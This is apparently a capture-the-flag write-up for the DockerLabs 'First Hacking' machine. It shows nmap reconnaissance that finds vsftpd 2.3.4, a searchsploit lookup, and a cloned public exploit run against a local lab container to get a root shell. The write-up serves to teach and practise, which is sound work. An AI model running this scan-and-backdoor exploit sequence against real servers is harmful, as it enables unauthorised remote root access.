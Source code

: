 # Write Up First Hacking

**Dificulty:** Super easy<br>
**URL of dockerlabs:** https://dockerlabs.es/

## Setting the enviroment
First of all we deploy the machine with the script that comes when downloading the machine
```
❯ sudo ./auto_deploy.sh firsthacking.tar

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Once deployed, we create the firsthacking folder, go inside and use the *mkt* utility that creates the *nmap*, *content*, *exploits* and *scripts* folders.

```
❯ mkdir firsthacking-dockerlabs
❯ cd firsthacking-dockerlabs
❯ mkt
❯ ls -l
drwxrwxr-x godack godack 4.0 KB Thu Aug 14 19:20:29 2025 content
drwxrwxr-x godack godack 4.0 KB Thu Aug 14 19:20:29 2025 exploits
drwxrwxr-x godack godack 4.0 KB Thu Aug 14 19:20:29 2025 nmap
drwxrwxr-x godack godack 4.0 KB Thu Aug 14 19:20:29 2025 scripts
```
## Recon
The first thing we do is a general reconnaissance with nmap on the victim machine, to obtain the open ports.
```
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts

PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 64
```

Once we have the open ports, we perform a more thorough scan using reconnaissance scripts to obtain the services on each port and the version they are running.

```
❯ extractPorts allPorts
[*] Extracting information...
 
     [*] IP Address: 172.17.0.2
     [*] Open ports: 21
 
[*] Ports copied to clipboard

❯ nmap -sCV -p21 172.17.0.2 -oN targeted
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-14 19:17 CEST
Nmap scan report for 172.17.0.2
Host is up (0.00018s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2.71 seconds
```

In this way we discover that the service running on port 21 (FTP port) is vsftpd version 2.3.4.

## Explotación
Once we have recognized the ports and services, we realize that when searching with searchsploit, the vsftpd service with version 2.3.4 is a vulnerable service.
```
❯ searchsploit vsftpd 2.3.4
-------------------------------------------------------- ---------------------------------
 Exploit Title                                          |  Path
-------------------------------------------------------- ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution               | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)  | unix/remote/17491.rb
-------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

In this way, we searched on GitHub for exploits for this vulnerability, and we found this repository, we downloaded it and executed it (https://github.com/Hellsender01/vsftpd_2.3.4_Exploit).

```
❯ git clone https://github.com/Hellsender01/vsftpd_2.3.4_Exploit.git
❯ sudo python3 -m pip install pwntools
❯ python3 exploit.py 172.17.0.2
[+] Got Shell!!!
[+] Opening connection to 172.17.0.2 on port 21: Done
[*] Closed connection to 172.17.0.2 port 21
[+] Opening connection to 172.17.0.2 on port 6200: Done
[*] Switching to interactive mode
$ whoami
root
$  
```

And finally we have access to the machine!!
